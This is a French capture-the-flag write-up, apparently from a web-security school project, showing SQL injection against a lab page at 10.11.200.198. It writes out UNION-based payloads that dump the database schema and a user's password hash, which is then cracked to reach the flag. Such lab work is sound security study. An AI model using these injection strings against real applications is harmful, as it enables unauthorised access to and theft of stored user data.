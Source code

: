 # SQL INJECTION

## Flag
```
10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
```

## Découverte


Sur la page http://10.11.200.198/?page=member on injecte cette ligne de sql \
pour connaitre tous les users ainsi que le nom des tables et des colonnes:
```
1 or 1=1 UNION SELECT table_name, column_name FROM information_schema.columns
```
On peut faire un schéma de la table users:
|¯¯¯¯¯¯¯¯¯¯¯¯¯¯¯¯¯¯|
|   users table    |
|------------------|
| user_id          |
| first_name       |
| last_name        |
| town             |
| country          |
| planet           |
| Commentaire      |
| countersign      |
|__________________|

Un utilisateur semble être interessant:
```
First name: Flag
Surname : GetThe
```
Toujours avec le meme genre d'injection sql on peut extraire les informations \
de cet utilisateur:
```
1 or 1=1 UNION SELECT commentaire, countersign from users WHERE user_id=5

commentaire:
Decrypt this password -> then lower all the char. Sh256 on it and it's good !

countersign:
5ff9d0165b4f92b14994e5c685cdce28
```
countersign est crypté en md5 (merci google), en suivant les instructions du \
commentaire on ce retrouve avec:
```
5ff9d0165b4f92b14994e5c685cdce28 -> FortyTwo -> fortytwo -> 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
```

## Documentation
- [owasp - sql injection](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
- [sqlinjection.net](https://www.sqlinjection.net/category/attacks)

---

[RETURN](https://github.com/jlange91/darkly)

